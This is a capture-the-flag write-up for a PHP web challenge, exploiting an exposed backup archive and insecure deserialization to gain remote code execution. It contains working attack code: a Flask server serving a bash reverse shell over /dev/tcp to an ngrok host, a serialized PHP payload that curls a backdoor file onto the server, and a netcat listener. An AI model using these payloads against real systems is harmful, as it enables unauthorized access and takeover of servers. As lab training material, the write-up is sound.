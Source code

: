 # Name: Web: Exotic Attacks: Handy Tool

## Vulnerability

LFI + PHP Object Injection / PHP Insecure Object Deserialization + RCE

## Exploit

The exploit involves opening a reverse shell. You'll need to:
1. Create an account on [ngrok](https://ngrok.com/) (also confirm your email address).
2. Install `ngrok` on you machine.
3. Forward your 1234 port using: `ngrok tcp 1234`. A ngrok host and IP will be forwarded to your local port.

The instructions are also available [here](https://securiumsolutions.com/blog/reverse-shell-using-tcp/). Don't close the `ngrok` terminal until we are done.

Now coming back to the challenge.
First, use the **Guess my last name** option.
As in the Romanian cartoon, the correct answer is **Iscusitul**.
After you input it, the server echoes `backup.zip`.

This is the name of an archive left in the server containing a relevant piece of source code.
Access it at `/backup.zip` and decompress it.

The other tools in the web page really do what they say: uppercase the input, unserialize it or trim the whitespace.
You guessed it, the handy one is **Unserialize**.

After inspecting the source code in the archive, you see what the serialized input object should look like.
It has to be a PHP class with two attributes:
 * `$condition` - boolean with the value `true`
 * `$prop` - a string you can use for remote code execution on the server

Since the actual output of the command is not shown, only the unserialized string, you should try to create a reverse shell.

I started a Flask app on my internal port where, if accessed, I return a piece of PHP code that spawns a reverse shell to my machine.
Make sure to update the ngrok host and port.
You can run the server with: `python app.py`:

```python
from flask import Flask, make_response

app = Flask(__name__)

NGROK_HOST = ""  # TODO: ngrok host
NGROK_PORT = 0 # TODO: ngrok port
INTERNAL_PORT = 1234

@app.route("/", methods=['GET'])
def index():
    code = '''<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/%s/%d 0>&1'");''' % (NGROK_HOST, NGROK_PORT)

    return make_response(code)


if __name__ == "__main__":
    app.run(host="0.0.0.0", debug=True, port=INTERNAL_PORT)
```

I created a PHP class with a command that performs a request to my server and saves the output to `backdoor.php`.
I created the serialized input.
Make sure to update the ngrok host and port.

```php
<?php
    $NGROK_HOST = ""; // TODO: ngrok host
    $NGROK_PORT = 0; // TODO: ngrok port

    class PHPClass
    {
        public $condition = true;
        public $prop = "system('curl http://".$NGROK_HOST.":".$NGROK_PORT" -o backdoor.php');";
    }

    echo urlencode(serialize(new PHPClass));
?>
```

You can run this file in command line with: `php payload.php`.
The serialized payload is:

`O:8:"PHPClass":2:{s:9:"condition";b:1;s:4:"prop";s:54:"system('curl http://<ngrok host>:<ngrok port> -o backdoor.php');";}`

After you input it on the server, the file `/backdoor.php` is created and you can access it.

In the meantime, the Flask server on your machine won't support this reverse shell.
You need to close it and open a simple netcat connection to your internal port before you access the backdoor:

`nc -nlvk 1234`

Now access `/backdoor.php` in the browser and you should have a shell in the `nc` terminal.

Find the flag file and perform a `cat` on it; it should be in `home/ctf/`: `cat /home/ctf/flag.txt`.

Exploit in `../sol/solution.sh`.
